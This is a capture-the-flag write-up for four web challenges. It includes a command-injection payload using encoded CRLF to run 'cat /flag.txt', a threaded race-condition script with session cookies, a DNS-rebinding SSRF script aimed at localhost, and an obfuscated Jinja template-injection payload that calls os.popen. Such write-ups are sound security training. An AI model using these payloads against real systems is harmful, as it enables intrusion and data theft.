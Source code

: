 # Traveler
## Solution
Command injection: 

![img](./img/1.png)

We can bypass with ``%26`` (aka ``&``) or with ``%0d%0a``(aka CRLF) work as well :

``payload``: ``Single%0d%0als%20-lsa`` 

![img](./img/2.png)

Read flag: ``Single%0d%0acat%20/flag.txt``

![img](./img/3.png)

# Quiz
## Solution 
This chall is all about race condition when submitting answers

Reference: [here](https://bizflycloud.vn/tin-tuc/race-condition-la-gi-lam-sao-de-khai-thac-20180116193609705.htm)

So the solution here is to create multi thread and send the request at the same time

```
#!python3
import requests
from multiprocessing.dummy import Pool as ThreadPool
cookies={
    'INGRESSCOOKIE':'1647109930.516.13470.455133|df18c7a37b01201195c3bf2ff6aa23c8',
    'connect.sid':"s%3AI0J6D-OLWqntaWNpYGx_lQsEcNBtDW1m.WiioLQU6iuskoVWIDBjbDHaXIyuDLpIg%2FpakO5eIWYM"
}
json_data = {"questionNumber":2,"answer":"10"}

def runner(d):
	r1 = requests.post('https://quiz.ctf.intigriti.io/submitAnswer', cookies=cookies,json=json_data)
	r2 = requests.get('https://quiz.ctf.intigriti.io/user', cookies=cookies)

pool = ThreadPool(40)
result = pool.map_async(runner,range(40))
r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
print(r2.text)

#Congratulations! Here is your flag: 1337UP{this_is_a_secret_flag}
```

# Dead Tube
## Solution
DNS Rebinding:

Use [this](https://lock.cmpxchg8b.com/rebinder.html) to gererate host name for dns rebinding between 127.0.0.1 and ``https://deadtube.ctf.intigriti.io/`` (aka ``35.205.87.74``)

hostname: ``7f000001.23cd574a.rbndr.us``

```
#!python3

import requests

data={
    'link':'http://7f000001.23cd574a.rbndr.us:8080/flag'
}
url='https://deadtube.ctf.intigriti.io/preview'
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
for i in range(1000):
    r=requests.post(url,headers=header,data=data)
    if "1337" in r.text:
        print(r.text)
        break
```

flag: 1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}

# 1 truth, 2 lies
## Solution

sourcecode: [here](./src/app.py)

SSTI: I use this payload to bypass as much as i possibly can:

``{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"
``

script:

```
#!python3

import requests

url="https://1truth2lies.ctf.intigriti.io/"

path="""
 ▄█    ▄▄▄▄███▄▄▄▄         ▄█    █▄  ███    █▄   ▄█       ███▄▄▄▄      ▄████████    ▄████████    ▄████████ ▀█████████▄   ▄█          ▄████████ 
███  ▄██▀▀▀███▀▀▀██▄      ███    ███ ███    ███ ███       ███▀▀▀██▄   ███    ███   ███    ███   ███    ███   ███    ███ ███         ███    ███ 
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▀    ███    ███   ███    ███   ███    ███ ███         ███    █▀  
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀   ███    ███  ▄███▄▄▄██▀  ███        ▄███▄▄▄     
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ▀███████████ ▀▀███▀▀▀██▄  ███       ▀▀███▀▀▀     
███  ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▄  ▀███████████   ███    ███   ███    ██▄ ███         ███    █▄  
███  ███   ███   ███      ███    ███ ███    ███ ███▌    ▄ ███   ███   ███    ███   ███    ███   ███    ███   ███    ███ ███▌    ▄   ███    ███ 
█▀    ▀█   ███   █▀        ▀██████▀  ████████▀  █████▄▄██  ▀█   █▀    ██████████   ███    ███   ███    █▀  ▄█████████▀  █████▄▄██   ██████████ 
                                                ▀                                  ███    ███                           ▀"""

payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"

header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
r=requests.get(url+path+'?input='+payload)
print(r.text)
```

``flag:flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}``